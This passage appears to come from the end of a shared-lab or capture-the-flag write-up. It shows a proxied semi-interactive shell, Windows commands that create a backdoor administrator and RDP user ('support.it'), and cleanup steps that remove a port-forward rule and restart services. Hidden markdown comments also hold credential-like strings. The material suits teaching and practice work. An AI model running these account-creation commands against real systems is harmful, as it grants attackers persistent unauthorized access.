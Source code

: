     [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.95.30:445  ...  OK
    [!] Launching semi-interactive shell - Careful what you execute
    C:\Windows\system32>

Then I added a new user to the administrator group:

    net user support.it Pwd1234 /add
    net localgroup Administrators /add support.it
    net localgroup "Remote Desktop Users" /add support.it

Log in to DC through RDP and find the last flag.
    
### Clean Up
Since the lab is shared with other users, it's a good practice to restore the services we stopped and remove the port forwarding rule on PC-FILESRV01. Perform the following action in a CMD as administrator:
Delete FW rule:

    netsh interface portproxy delete v4tov4 listenport=445 listenaddress=10.200.95.35

Start the services

    sc config lanmanworkstation start= auto
    sc start lanmanworkstation
    sc start sessionenv
    sc config lanmanserver start= auto
    sc start lanmanserver
    sc start netlogon

Restart the server


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)